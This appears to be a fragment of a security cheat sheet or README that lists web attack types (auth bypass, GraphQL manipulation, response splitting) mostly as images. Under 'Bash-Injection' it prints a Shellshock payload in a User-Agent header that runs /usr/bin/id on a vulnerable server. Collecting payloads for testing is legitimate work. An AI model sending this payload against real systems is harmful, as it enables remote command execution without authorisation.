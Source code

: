 ![Auth-bypass](img/auth_bypass.png)
**Bash-Injection**
```js
User-Agent:() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id;
Pragme: no-cache
```
**Graphql Manipulation**
![img](img/graphql-1.jpg)
**Response Splitting**